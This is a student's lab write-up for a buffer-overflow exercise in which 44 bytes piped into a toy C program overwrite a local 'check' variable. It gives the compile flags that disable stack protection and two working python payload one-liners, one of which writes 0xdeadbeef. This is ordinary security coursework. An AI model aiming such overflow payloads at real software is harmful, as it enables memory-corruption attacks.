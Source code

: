 # Lab bof2
Hà Quốc Tiến - 22110075<br>
## Target
- Change the value of `check`, so that it statisfy the if condition.
## Solution
- Stack frame<br>
![bof2_1](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/Buffer-overflow/img/bof2_1.png)
- We review `bof2.c` and see that buf only take 40 bytes of data. But the `fgets()` can took 45 bytes, then we watch the stack frame and see that in order to change the `check` by using buffer-overflow. We need to insert 44 bytes of data (40 for `buf[40]`  + 4 for `check` ), so 45 at the `fgets()` is enough.
## Execution
1. Create `bof2.out` by using ` gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. We start buffer-overflowing 44 bytes of data into `buf[40]`.<br>
- First, let try to print `You are on the right way!`, by changing the `check` so that it doesn't = 0x04030201 and 0xdeadbeef.<br>
    > echo $(python -c "print('a'*40+'\x6b\x84\x04\x00')")| ./bof2.out<br>

    ![bof2_2](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/Buffer-overflow/img/bof2_2.png)
- Second, let print out `Yeah! You win!`, by changing the `check` so that it = 0xdeadbeef<br>
    > echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')")| ./bof2.out

    ![bof2_3](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/Buffer-overflow/img/bof2_3.png)
- And the lab is done.
